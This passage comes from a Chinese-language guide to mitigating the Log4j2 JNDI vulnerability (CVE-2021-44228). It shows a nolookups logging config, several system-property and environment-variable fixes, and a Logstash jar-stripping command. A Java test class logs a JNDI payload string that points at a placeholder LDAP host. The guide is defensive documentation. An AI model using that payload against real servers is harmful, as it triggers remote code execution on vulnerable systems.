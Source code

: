     
    <?xml version="1.0" encoding="UTF-8"?>  
    <Configuration status="WARN">  
      <Appenders>  
        <Console name="Console" target="SYSTEM_OUT">  
          <PatternLayout pattern="%d{HH:mm:ss.SSS} [%t] %-5level %logger{36} - %msg{nolookups}%n"/>  
        </Console>  
      </Appenders>  
      <Loggers>  
        <Root level="error">  
          <AppenderRef ref="Console"/>  
        </Root>  
      </Loggers>  
    </Configuration>  
    public class Test {  
    public static void main(String[] args) {  
    String t = "${jndi:ldap://xxx.com/xxx}";  
    Logger logger = LogManager.getLogger(LogManager.ROOT_LOGGER_NAME);  
    logger.error(t);  
    }  
    }  
    

###### 设置JVM系统属性

在 Java 应用启动参数中增加 -Dlog4j2.formatMsgNoLookups=true，或者在业务代码中设置系统属性：

    
    
    // 必须在 log4j 实例化之前设置该系统属性  
    System.setProperty("log4j2.formatMsgNoLookups", "true");  
      
    Logger logger = LogManager.getLogger(LogManager.ROOT_LOGGER_NAME);  
    

###### 修改配置文件

在配置文件 log4j2.component.properties
中增加：log4j2.formatMsgNoLookups=true，配置文件放置于应用程序的 ClassPath 路径下。

###### 设置进程环境变量

在环境变量中增加：LOG4J_FORMAT_MSG_NO_LOOKUPS=true

> 注意！这些配置和属性，并不能在所有场景下生效，比如在 logstash 中就无法生效：**Solutions and Mitigations:**The
> widespread flag -Dlog4j2.formatMsgNoLookups=true does NOT mitigate the
> vulnerability in Logstash, as Logstash uses Log4j in a way where the flag
> has no effect. It is therefore necessary to remove the JndiLookup class from
> the log4j2 core jar, with the following command:
>
> zip -q -d /logstash-core/lib/jars/log4j-core-2.*
> org/apache/logging/log4j/core/lookup/JndiLookup.class
>
> Refer: https://discuss.elastic.co/t/apache-log4j2-remote-code-execution-rce-
> vulnerability-cve-2021-44228-esa-2021-31/291476

##### 升级JDK版本
